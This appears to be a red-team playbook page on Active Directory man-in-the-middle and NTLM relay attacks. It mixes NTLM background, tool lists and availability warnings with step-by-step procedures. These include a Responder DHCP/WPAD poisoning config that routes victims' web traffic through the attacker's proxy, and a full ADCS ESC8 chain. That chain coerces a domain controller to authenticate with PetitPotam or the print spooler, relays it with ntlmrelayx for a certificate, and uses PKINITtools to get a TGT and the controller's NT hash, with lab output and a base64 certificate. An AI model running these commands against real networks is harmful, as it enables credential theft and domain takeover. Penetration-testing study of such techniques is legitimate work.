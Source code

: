 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# AD MITM and Relay Attacks
## Tags
<details><summary>Tags (Click to expand)</summary><p>

Environment

		#@active #@directory #@activedirectory #@microsoft

Context

		#@smbrelay #@ntlmrelay #@capture #@traffic #@authenticate #@authentication #@creds #@credentials #@credential #@relay #@proxy #@proxychain #@proxychains #@dump #@dumping #@ADCS #@downgrade #@auth

Tools

		#@ntlmrelayx #@ntlmrelay #@smbrelay #@smbrelayx #@responder #@impacket #@petitpotam #@crackmapexec #@donpapi #@lsassy #@topotam #@ly4k

</p></details>

## References
<details><summary>References (Click to expand)</summary><p>

* ivoidwarranties blog -<br />[https://www.ivoidwarranties.tech/posts/pentesting-tuts/responder/windows-pwnage/](https://www.ivoidwarranties.tech/posts/pentesting-tuts/responder/windows-pwnage/)
* Byt3Bl33d3r Blog: Practical guide to NTLM Relaying in 2017 (A.K.A getting a foothold in under 5 minutes) -<br />[https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
* Youtube Guide to SMBRelay -<br />[https://www.youtube.com/watch?v=4WP227MuIlk](https://www.youtube.com/watch?v=4WP227MuIlk)
* Charlie Bromberg Twitter: "Mindmap Brain for pass-the-whatever and common attacks operated on Active Directory authentication protocols (NTLM, Kerberos)" -<br />[https://twitter.com/_nwodtuhs/status/1427662242321948676/photo/1](https://twitter.com/_nwodtuhs/status/1427662242321948676/photo/1)
* PayloadAllTheThings GitHub Repo: Active Directory Attack -<br />[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Active Directory Attack.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Active Directory Attack.md)
* Reflection Attack MS08-068 -<br />[https://technet.microsoft.com/zh-cn/zh/library/security/ms08-068](https://technet.microsoft.com/zh-cn/zh/library/security/ms08-068)
* Byt3bl33d3r GitHub Blog: "Practical guide to NTLM Relaying in 2017 (A.K.A getting a foothold in under 5 minutes)" <br />[https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
* -<br/>[https://luemmelsec.github.io/Relaying-101/](https://luemmelsec.github.io/Relaying-101/)
* [https://docs.microsoft.com/en-us/troubleshoot/windows-server/networking/credentials-prompt-access-webdav-fqdn-sites](https://docs.microsoft.com/en-us/troubleshoot/windows-server/networking/credentials-prompt-access-webdav-fqdn-sites)
* gladiatx0r GitHub: Workstation-Takeover.md -<br />[https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb](https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb)
* -<br />[https://trelis24.github.io/2018/08/03/Windows-WPAD-Poisoning-Responder/](https://trelis24.github.io/2018/08/03/Windows-WPAD-Poisoning-Responder/)
* -<br />[https://t3chnocat.com/tutorial-wpad-mitm/](https://t3chnocat.com/tutorial-wpad-mitm/)
* -<br />[https://www.praetorian.com/blog/obtaining-laps-passwords-through-ldap-relaying-attacks/](https://www.praetorian.com/blog/obtaining-laps-passwords-through-ldap-relaying-attacks/)
* -<br />[https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)

</p></details>

## Overview

<details><summary>Overview (Click to expand)</summary><p>

* [https://miriamxyra.com/2017/11/08/stop-using-lan-manager-and-ntlmv1/](https://miriamxyra.com/2017/11/08/stop-using-lan-manager-and-ntlmv1/)
* NTLM Authentication Process
	1. Upon logon, the client sends the plain-text username to the server
	1. The server generates a random number ("challenge" or "nonce") and sends it to the client
	1. The client encrypts the challenge with the hash of the user-provided password
	1. The encrypted data is sent to the server
	1. The server sends 3 items to the Domain Controller to verify authentication
		* Username
		* Challenge (sent to client in Step 2)
		* Response (sent to server in Step 3/4)
	1. The Domain Controller cross-references the username with its hash within the SAM database and uses it to encrypt/hash the challenge
	1. The Domain Controller compares the encrypted challenge from Step 6 with the client's encrypted challenge from Step 3; if the challenges are identical, authentication is successful
* NTLMv1 vs NTLMv2
	1. Both versions of NTLM authentication follow the steps above to complete the authentication process in a domain. The difference is in how the challenge is handled.
		* NTLMv1 challenge is a constant 16-byte random number while NTLMv2 uses a variable-length challenge
		* NTLMv1 uses the weak DES algorithm which is easily crackable
		* NTLMv2 uses HMAC-MD5 which is difficult to crack/retrieve plaintext but can be relayed
* Windows networks use a variety of a protocols that are susceptible to MiTM attacks if an attacker is able to obtain a foothold within the network. [Responder](https://github.com/lgandx/Responder) is a command-line tool that allows the attacker to quickly start a different rogue servers (HTTP, SMB, LDAP, etc.) that masquerade as traditional appliances found in a typical corporate environment.
* mDNS (Multicast DNS): Conduct DNS resolution on a LAN using broadcast
* LLMNR (Link-Local Multicast Name Resolution): Resolve hostnames on local networks

</p></details>

### Tools

<details><summary>Tools (Click to expand)</summary><p>

* Relay/Capture
	* Impacket -<br />[https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)
		* ntlmrelayx
	* Responder GitHub-<br />[https://github.com/SpiderLabs/Responder](https://github.com/lgandx/Responder)
		* Responder
		* Multirelay (Responder)
		* Runfinger
* Authentication Coercion
	* PetitPotam
		* topotam (EfsRpcOpenFileRaw, EfsRpcEncryptFileSrv) -<br />[https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)
		* ly4k (fka ollypwn) (The other named pipes) -<br />[https://github.com/ly4k/PetitPotam](https://github.com/ly4k/PetitPotam)
			* https://github.com/SecureAuthCorp/impacket/pull/1179
	* Dementor.py -<br />[https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)
* NTLMv1 Cracking
	* NTLMv1-Multi -<br />[https://github.com/evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi)
* proxy attack tools
	* donpapi -<br />[https://github.com/login-securite/DonPAPI](https://github.com/login-securite/DonPAPI)
	* lsassy

</p></details>

## WARNINGS (Read this before you get in trouble)

<details><summary>Dangerous Tools (Click to expand)</summary><p>

* Responder
	* IMPACTS AVAILABILITY. Run during off-hours
	* Consider running disruptive attacks (including default poisoners) during off-hours
	* Disable with `-A`
	* Whitelist hosts in Responder.conf
	* Poisoning fades after some time
	* Upon initiation, Responder automatically begins poisioning unless `-A` (for Analyze) has been set.
* MITM6
	* IMPACTS AVAILABILITY. Run during off-hours
	* Use host whitelisting (`-hw`)
	* Poisoning fades after some time

</p></details>

## Protocol Guidance
### Overview (Use with proceeding images)

* Relaying **must** be done from one compatible computer to a separate compatible computer.
	* That is, if you relay an authentication from "10.0.0.1", you cannot relay back to "10.0.0.1." The vector would then be a "reflection attack," which has been patched for a while in AD.
* Auth *from* protocol
	* <details><summary>SMB (Click to expand)</summary><p>
		* If relaying `SMB`-->`SMB`, the coerced computer must not *require* SMB signing.
			* Enumeration for SMB Signing: [SMB Enumeration Guide](Testaments_and_Books/Redvelations/Active_Directory/001-3_SMB_Enumeration.md)
			* DCs *require* SMB signing
	* HTTP
		* Enumeration for exposed WebDAV: []
		* More OpSec friendly, but rarer to find
		* Doesn't
* Auth *to* protocol
	* <details><summary>SMB (Click to expand)</summary><p>
		* Enumerate Local Admins (useful if not currently Local Admin)
	* <details><summary>LDAPS (Click to expand)</summary><p>
		* Required over LDAP to perform RBCD attack, where machine account asks DC to make a new computer account with Local Admin rights over the coerced machine.
		* `ms-DS-MachineAccountQuota` - By default users on the domain are allowed to create up to 10 machine accounts.
	* <details><summary>HTTP (Click to expand)</summary><p>
* <details><summary>Restrictions (Click to expand)</summary><p>
	* You CAN perform Pass-The-Hash attacks with NTLM hashes.
	* You CANNOT perform Pass-The-Hash attacks with Net-NTLM hashes.
	* When user not admin
		* No RCE
		* Still relay to LDAP, IMAP, MSSQL, SMB

### Mindmaps and Images
<img src="https://en.hackndo.com/assets/uploads/2020/03/ntlm_resume.png" style="float": left; width="400" />

<img src="https://raw.githubusercontent.com/ShutdownRepo/The-Hacker-Recipes/master/.assets/ntlm_relau_mitigation_chart.png" style="float": left; width="1200" />

<img src="https://raw.githubusercontent.com/ShutdownRepo/The-Hacker-Recipes/master/.gitbook/assets/NTLM%20relay.png" style="float": left; width="1200" />


## Example Attacks: Match enum. to reqs
* Example Attacks
	* <details><summary>DHCP (Click to expand)</summary><p>
		* <details><summary>Notes (Click to expand)</summary><p>
		* <details><summary>Resources (Click to expand)</summary><p>
				* [https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)
		* <details><summary>Requirements (Click to expand)</summary><p>
			* LAN Access
		* Process
			1. Modify Responder config. to include the below in the WPADScript line. Replace the 2 instances of "REPLACEME" with your Responder IP.

					WPADScript = function FindProxyForURL(url, host){if ((host == "localhost") || shExpMatch(host, "localhost.*") ||(host == "127.0.0.1") || isPlainHostName(host)) return "DIRECT"; if (dnsDomainIs(host, "ProxySrv")||shExpMatch(host, "(*.ProxySrv|ProxySrv)")) return "DIRECT"; return 'PROXY REPLACEME:3128; PROXY REPLACEME:3141; DIRECT';}
			1. Launch Responder in DHCP mode.

					python Responder.py -rPdvI ens33
	* <details><summary>ADCS ESC8: Forced Authentication (**DC Not Required**) (Click to expand)</summary><p>
		* <details><summary>Resources (Click to expand)</summary><p>
			* [https://gist.github.com/S3cur3Th1sSh1t/0c017018c2000b1d5eddf2d6a194b7bb](https://gist.github.com/S3cur3Th1sSh1t/0c017018c2000b1d5eddf2d6a194b7bb)
			* [https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)
		* <details><summary>Requirements (Click to expand)</summary><p>
			* ADCS Web NTLM Authentication Enabled
			* Know ADCS Server Name
			* Know template options
				* Originally, you could trigger DC --> "DomainController" template. Now, you may look at triggering any Machine/User to any enumerated template they would be allowed.
				* Domain Controller -- "DomainerController" template may fail, but there can be other templates that get you DA-level access.
			* DC, Server, or User Authentication Trigger
		* Process
			1. Initiate ntlmrelayx with `--adcs` and `--template` options.
				* Notes
					* See full attack notes to ensure this part works out.
				* Command

						python examples/ntlmrelayx.py -t https://<certificate-server-name>/certsrv/certfnsh.asp -smb2support --adcs --template "DomainController"
					* **Recommended:** Using split panes in a tmux window allows you to view and troubleshoot the execution of these steps in real time.
						* `Hotkey` + `"`: splits between top and bottom halves
						* `Hotkey` + `%`: splits between left and right halves
					* Example Output

							(impacket) root@gateway0:/home/lab_user/impacket# ntlmrelayx.py -t http://ca.lab.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
							Impacket v0.9.24.dev1+20210727.163808.5f1ced6d - Copyright 2021 SecureAuth Corporation
							                                  
							[*] Protocol Client DCSYNC loaded..
							[*] Protocol Client HTTP loaded..
							[*] Protocol Client HTTPS loaded..
							[*] Protocol Client IMAPS loaded..      
							[*] Protocol Client IMAP loaded..
							[*] Protocol Client LDAP loaded..
							[*] Protocol Client LDAPS loaded..
							[*] Protocol Client MSSQL loaded..
							[*] Protocol Client RPC loaded..            
							[*] Protocol Client SMB loaded..                                                                     
							[*] Protocol Client SMTP loaded..                                      
							[*] Running in relay mode to single host                          
							[*] Setting up SMB Server                                                                            
							                                                                       
							[*] Setting up HTTP Server                                        
							[*] Setting up WCF Server                                                                            
							[*] Servers started, waiting for connections
			1. In a separate terminal window (while NTLM relay is still running and observable), force the DC to perform authentication with the CA. ([TTP](TTP/T1187_Forced_Authentication/T1187.md))
				* Option 1: PetitPotam

						python PetitPotam.py -u <username> -p <password> <attacker_hostname_or_IP> <target_hostname_or_IP>
				* Option 2: PrintSpooler

						python dementor.py -u <username> -p <password> <attacker_hostname_or_IP> <target_hostname_or_IP>
					* Example Output

							(impacket) root@gateway0:/home/lab_user/NetNTLMtoSilverTicket# python ./dementor.py 10.0.0.5 10.0.0.4 -d lab.local -u lab_user -p PASSWORD
							[*] connecting to 10.0.0.4
							[*] bound to spoolss
							[*] getting context handle...
							[*] sending RFFPCNEX...
							[*] Got expected RPC_S_SERVER_UNAVAILABLE exception. Attack worked
							[*] done!
			1. Save the resulting base64 output data as a file.
				* Example Output

						(impacket) root@gateway0:/home/lab_user/impacket# ntlmrelayx.py -t http://ca.lab.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
						Impacket v0.9.24.dev1+20210727.163808.5f1ced6d - Copyright 2021 SecureAuth Corporation
						                                  
						[*] Protocol Client DCSYNC loaded..
						[*] Protocol Client HTTP loaded..
						[*] Protocol Client HTTPS loaded..
						[*] Protocol Client IMAPS loaded..      
						[*] Protocol Client IMAP loaded..
						[*] Protocol Client LDAP loaded..
						[*] Protocol Client LDAPS loaded..
						[*] Protocol Client MSSQL loaded..
						[*] Protocol Client RPC loaded..            
						[*] Protocol Client SMB loaded..                                                                     
						[*] Protocol Client SMTP loaded..                                      
						[*] Running in relay mode to single host                          
						[*] Setting up SMB Server                                                                            
						                                                                       
						[*] Setting up HTTP Server                                        
						[*] Setting up WCF Server                                                                            
						[*] Servers started, waiting for connections                           
						[*] SMBD-Thread-4: Connection from LAB/DC0$@10.0.0.4 controlled, attacking target http://ca.lab.local
						[*] HTTP server returned error code 200, treating as a successful login                              
						[*] Authenticating against http://ca.lab.local as LAB/DC0$ SUCCEED     
						[*] SMBD-Thread-4: Connection from LAB/DC0$@10.0.0.4 controlled, attacking target http://ca.lab.local
						[*] HTTP server returned error code 200, treating as a successful login                              
						[*] Authenticating against http://ca.lab.local as LAB/DC0$ SUCCEED     
						[*] SMBD-Thread-4: Connection from LAB/DC0$@10.0.0.4 controlled, attacking target http://ca.lab.local
						[*] HTTP server returned error code 200, treating as a successful login
						[*] Authenticating against http://ca.lab.local as LAB/DC0$ SUCCEED
						[*] SMBD-Thread-4: Connection from LAB/DC0$@10.0.0.4 controlled, attacking target http://ca.lab.local
						[*] HTTP server returned error code 200, treating as a successful login
						[*] Authenticating against http://ca.lab.local as LAB/DC0$ SUCCEED
						[*] SMBD-Thread-4: Connection from LAB/DC0$@10.0.0.4 controlled, attacking target http://ca.lab.local
						[*] HTTP server returned error code 200, treating as a successful login
						[*] Authenticating against http://ca.lab.local as LAB/DC0$ SUCCEED
						[*] Generating CSR...
						[*] CSR generated!
						[*] Getting certificate...
						[*] GOT CERTIFICATE!            
						[*] Base64 certificate of user DC0$:
						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
			1. Use PKINITtools to calculate the NT Hash.
				* **Save the *AS-REP encryption key* the command produces.**
				* Command
					
						python gettgtpkinit.py $DOMAIN/<DC_Hostname> -dc-ip <dc_IP_address> -pfx-base64 <base64 output> <outputfile.ccache>
					* `-pfx-base64` parameter: either paste the full base64 data onto command line, or place in file and include "`cat base64_filename`" as the paramater
					* `DC_Hostname` - May be something like "DC0\$" (escape the $)
					* `outputfile` - Successful examples/tests use ".ccache" extension
					* `dc_IP_address` - Optional argument according to specify the DC IP, which can help solve name resolution issues.
				* <details><summary>Example output (click to expand)</summary><p>			

						(impacket2) root@gateway0:/home/lab_user/PKINITtools# python gettgtpkinit.py lab.local/dc0\$ -dc-ip 10.0.0.4 -cert-pem dc0-cert.pem -key-pem dc0-key.pem dc0.ccache
						2021-08-06 18:27:08,045 minikerberos INFO	Loading certificate and key from file
						2021-08-06 18:27:08,094 minikerberos INFO	Requesting TGT
						2021-08-06 18:27:08,121 minikerberos INFO	AS-REP encryption key (you might need this later):
						2021-08-06 18:27:08,121 minikerberos INFO	b2037b9bae658af2437d588b367dd08fd075540a18f74946c11f9416b1b057a9
						2021-08-06 18:27:08,130 minikerberos INFO	Saved TGT to file

			1. Export the produced ccache file into KRB5CCNAME variable (enables passwordless authentication)
				* Command

						export KRB5CCNAME=<dc0.ccache>
				* <details><summary>Example output (click to expand)</summary><p>

						(PKINITtools) user@localhost:~/PKINITtools$ export KRB5CCNAME=dc0.ccache
			1. Use `PKINITtools` `getnthash.py` and set the `-key` parameter to the above `AS-REP encryption key`.
				* Command:

						python getnthash.py $DOMAIN/<DC_Hostname> -dc-ip <dc_IP_address> -key <key>

